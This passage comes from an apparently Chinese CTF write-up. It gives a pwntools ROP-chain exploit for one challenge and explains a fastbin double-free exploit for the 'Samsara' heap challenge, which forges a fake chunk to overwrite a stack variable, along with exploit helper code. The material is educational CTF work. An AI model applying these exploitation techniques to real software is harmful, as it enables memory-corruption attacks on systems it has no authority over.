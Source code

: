 ```python
ru('with')
elem = [ru(', ') for i in range(4)]
elem.append(ru('!\n'))

pop_rdi = 0x400e43 # 1
pop_rsi = 0x400e41 # 2
pop3 = 0x400c3a # 1,2,3

strategy = {
    'gold': flat(pop_rdi,0xdeadbabe,pop_rsi,0xdeadfa11,0,elf.plt['fire_shield']),
    'wood': flat(pop_rdi,0xdeadbeef,elf.plt['gold_shield']),
    'water': flat(pop_rdi,0xfee1dead,elf.plt['earth_shield']),
    'fire': flat(pop3,0xbaaaaaad,0x8badf00d,0xd15ea5e,elf.plt['water_shield']),
    'earth': flat(pop_rdi,0xcafebabe,pop_rsi,0xdeadbaad,0,elf.plt['wood_shield'])
}

payload = 'a'*0x48
for attack in elem:
    payload += strategy[attack]

pos = 0x6020b0
payload += flat(pop_rdi,pos,elf.plt['check'])
sla('Skill> ',payload)
```

注意链接时 `libmagic.so` 的目录，我放在和源程序同一目录下因此使用选项 `-L.`。同时 `/usr/lib/` 下也需要有 `libmagic.so`。

此外，感谢 TaQini 师傅提供的非预期解：直接 ret2libc。

> 这么一说我才想起来，我原来确实是打算出 ret2libc 的，不知道怎么就改成了这个样子。

### Samsara

又一道堆题，应该是最难的 Pwn 题。

逆向可以知道每次抓人都执行 `malloc(8)`，我们不能控制分配的大小。那么在释放的时候，chunk 必定进入 fastbin。操作 3 就是编辑 chunk 的内容，不存在溢出。但是这题有两个奇怪的操作：输入 4 会打印出栈上变量 `lair` 的位置，输入 5 会改变 `lair` 的值。最后，退出程序时，检查栈上变量 `target` 是否等于 `0xdeadbeef`，如果等于就能 getflag，但是整个程序中不存在对 `target` 的任何读写操作。

漏洞点在于 `free` 之后没有置指针为 NULL，考虑 `double free`。首先分配三个 chunk，按 `chunk0->chunk1->chunk0` 的顺序释放，第二次释放 `chunk0` 时它不在对应 fastbin 的头部，因此不会被检测到。再申请两次分别得到 `chunk3` 和 `chunk4`，按 first-fit 原则前者即 `chunk0`，后者即 `chunk1`，但此时 `chunk0` 依然会留在 fastbin 中。

接下来，我们在 `target` 附近伪造 chunk。我们逆向发现 `lair` 在 `target` 上方 8B 处，因此先输入 4，设置 `lair=0x20` 以伪造 `chunk_size`。然后输入 5 得到 `&lair`，那么 `&lair-8` 处就是伪造的 chunk 的 chunk 指针。伪造好以后，我们向 `chunk3` 即 `chunk0` 的 `fd` 写入 `&lair-8`。此时，fastbin 内就变成了 `chunk0->fake_chunk`，申请一次得到 `chunk0`，第二次得到 `fake_chunk`。

此时向 `fake_chunk` 写数据，等价于向 `(&lair-8) + 0x10` 也就是 `target` 写数据，写入 `0xdeadbeef` 并退出程序即可。

```python
def add():
    sla('> ','1')

def delete(index):
    sla('> ','2')
    sla(':\n',str(index))

def edit(index,content):
    sla('> ','3')
    sla(':\n',str(index))
    sla(':\n',content)

def show():
    sla('> ','4')
    ru('0x')
    return int(ru('\n'),16)

```